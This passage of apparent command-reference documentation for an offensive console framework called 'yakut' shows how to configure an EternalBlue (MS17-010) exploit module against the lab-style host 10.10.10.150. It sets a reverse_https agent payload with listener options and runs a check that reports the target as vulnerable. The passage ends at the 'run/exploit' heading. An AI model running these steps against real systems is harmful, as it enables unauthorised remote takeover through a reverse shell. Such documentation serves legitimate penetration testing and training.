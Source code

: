 ```console
  LHOST                      yes       The listen address (for reverse connections)
  LPORT     443              yes       The listen port (for reverse connections)
  ...

```

### `module options set <OPTION_NAME> <value>` or `set <OPTION_NAME> <value>` (within module context)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > set RHOSTS 10.10.10.150
RHOSTS => 10.10.10.150
```

### `module options payload <payload_refname>` or `set PAYLOAD <payload_refname>` (for exploit modules)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > set PAYLOAD windows/x64/yakut_agent/reverse_https
PAYLOAD => windows/x64/yakut_agent/reverse_https
```

### `payload options` or `poptions` (within module context, after a payload is set)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > payload options
Payload options (windows/x64/yakut_agent/reverse_https):
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  LHOST                    yes       The listen address
  LPORT   4433             yes       The listen port
  ...
```

### `payload options set <OPTION_NAME> <value>` or `pset <OPTION_NAME> <value>` (within module context)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > pset LHOST eth0
LHOST => eth0
```

### `module check` or `check` (within module context, if module supports it)

```console
yakut [exploit/windows/smb/eternalblue_ms17010] > check
[*] 10.10.10.150:445 - Checking for MS17-010 vulnerability...
[+] 10.10.10.150:445 - The target appears to be vulnerable to MS17-010 (EternalBlue).
```

### `module run [--async]` or `run [--async]` or `exploit [--async]` (within module context)
